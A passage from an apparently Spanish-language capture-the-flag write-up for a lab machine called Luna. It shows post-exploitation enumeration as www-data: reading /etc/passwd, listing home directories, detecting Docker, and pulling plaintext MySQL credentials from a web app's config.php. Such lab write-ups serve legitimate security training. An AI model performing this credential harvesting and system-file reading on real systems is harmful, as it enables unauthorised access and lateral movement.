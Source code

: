 Veamos qué usuarios existen en la máquina:
```bash
www-data@TheHackersLabs-Luna:~/RODGAR$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
juan:x:1001:1001::/home/juan:/bin/bash
jose:x:1002:1002::/home/jose:/bin/bash
john:x:1003:1003::/home/john:/bin/bash
carmen:x:1004:1004::/home/carmen:/bin/bash
```
Hay 4 usuarios aparte del **Root**.

Si revisamos el directorio `/home`, ahí estará el directorio de cada usuario, pero no tenemos permisos para ver el contenido de cada uno:
```bash
www-data@TheHackersLabs-Luna:~/RODGAR$ ls -la /home
total 24
drwxr-xr-x  6 root   root   4096 ago 14  2024 .
drwxr-xr-x 22 root   root   4096 ago 15  2024 ..
drwxr-x---  2 carmen carmen 4096 ago 12  2024 carmen
drwxr-x---  2 john   john   4096 ago 12  2024 john
drwxr-x---  2 jose   jose   4096 ago 13  2024 jose
drwxr-x---  2 juan   juan   4096 ago 14  2024 juan
```

Revisando el directorio `/opt`, veremos que hay un contenedor, pero no podremos ver su contenido:
```bash
www-data@TheHackersLabs-Luna:~/RODGAR$ ls -la /opt
total 12
drwxr-xr-x  3 root root 4096 ago  9  2024 .
drwxr-xr-x 22 root root 4096 ago 15  2024 ..
drwx--x--x  4 root root 4096 ago  9  2024 containerd
```
Esto nos da a entender que se está utilizando **Docker**.

Comprobémoslo revisando la IP de la máquina con el comando **hostname**:
```bash
www-data@TheHackersLabs-Luna:~/RODGAR$ hostname -I
192.168.100.50 172.17.0.1
```
Estamos dentro de la máquina, pero vemos que sí existe el uso de **Docker** por la IP `172.17.0.1`.

<br>

<h2 id="MySQL">Enumeración del Servicio MySQL y Convirtiendonos en Usuario juan</h2>

Recordando los archivos que vimos en el directorio `/var/www/RODGAR`, vimos un archivo llamado **config.php**.

Veamos qué contiene:
```bash
www-data@TheHackersLabs-Luna:~/RODGAR$ cat config.php 
<?php
$servername = "localhost";
$username = "admin";
$password = "sporting";
$dbname = "rodgar";

// Crear conexión
$conn = new mysqli($servername, $username, $password, $dbname);

// Verificar conexión
if ($conn->connect_error) {
    die("Conexión fallida: " . $conn->connect_error);
}
?>
```
Muy bien, tenemos las credenciales de acceso para el **servicio MySQL**.
